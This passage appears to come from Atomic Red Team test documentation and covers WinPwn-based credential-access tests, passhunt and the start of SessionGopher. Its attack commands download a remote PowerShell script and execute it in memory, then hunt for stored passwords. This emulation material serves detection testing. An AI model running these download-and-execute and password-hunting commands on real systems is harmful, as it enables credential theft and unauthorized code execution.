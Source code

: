 
```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
powershellsensitive -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #10 - WinPwn - passhunt
Search for Passwords on this system using passhunt via WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 00e3e3c7-6c3c-455e-bd4b-461c7f0e7797






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
passhunt -local $true -noninteractive
```

#### Cleanup Commands:
```powershell
rm -force .\passhunt.exe -ErrorAction Ignore
rm -force .\phunter* -ErrorAction Ignore
rm -force -recurse .\DomainRecon -ErrorAction Ignore
rm -force -recurse .\Exploitation -ErrorAction Ignore
rm -force -recurse .\LocalPrivEsc -ErrorAction Ignore
rm -force -recurse .\LocalRecon -ErrorAction Ignore
rm -force -recurse .\Vulnerabilities -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #11 - WinPwn - SessionGopher
Launches SessionGopher on this system via WinPwn

**Supported Platforms:** Windows
